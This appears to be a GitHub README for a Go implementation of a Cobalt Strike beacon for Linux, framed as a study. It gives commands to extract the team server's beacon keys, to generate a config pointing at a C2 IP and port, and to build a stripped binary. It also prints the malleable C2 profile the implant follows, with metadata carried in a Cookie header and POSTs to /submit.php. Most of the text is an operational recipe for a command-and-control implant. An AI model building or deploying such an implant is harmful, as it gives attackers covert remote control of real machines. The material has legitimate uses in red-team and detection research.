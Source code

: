 # [Be]acon for [Lin]ux

This repository contains a study and implementation of a Cobalt Strike beacon for linux based operation system.

Refer to [NOTES.md](NOTES.md) as more information about the project.

Extract the keys from `.cobaltstrike.beacon_keys` using the file under `cmd/KeyExt/`.

```
go run cmd/keyExt/main.go ./cobaltstrike.beacon_keys

-----BEGIN PUBLIC KEY-----
MIGfMA0G...
-----END PUBLIC KEY-----
-----BEGIN PUBLIC KEY-----
MIGfMA0G...
-----END PUBLIC KEY-----
```

Or use the config gen to create a configuration file that must be placed within the folder `config`.

```bash
go run cmd/configGen/main.go -k ./cobaltstrike.beacon_keys -a <c2 ip>:<port> > config/config.go
```

Now build the binary.

```bash
go build -o name -ldflags="-s -w" cmd/main/main.go
```

Have in mind that this "beacon" will use the default CS malleable profile, placing the metadata in cookie and posting the response with the query string `id` as the session/beacon id.

```js
http-get {
	set uri "/load";

	client {
		metadata {
			base64;
			header "Cookie";
		}
	}

	server {
		header "Content-Type" "application/octet-stream";
		output {
			print;
		}
	}
}
```

```js
http-post {
	set uri "/submit.php";
	client {
		header "Content-Type" "application/octet-stream";
		id {
			parameter "id";
		}
		output {
			print;
		}
	}
	server {
		header "Content-Type" "text/html";
		output {
			print;
		}
	}
}
```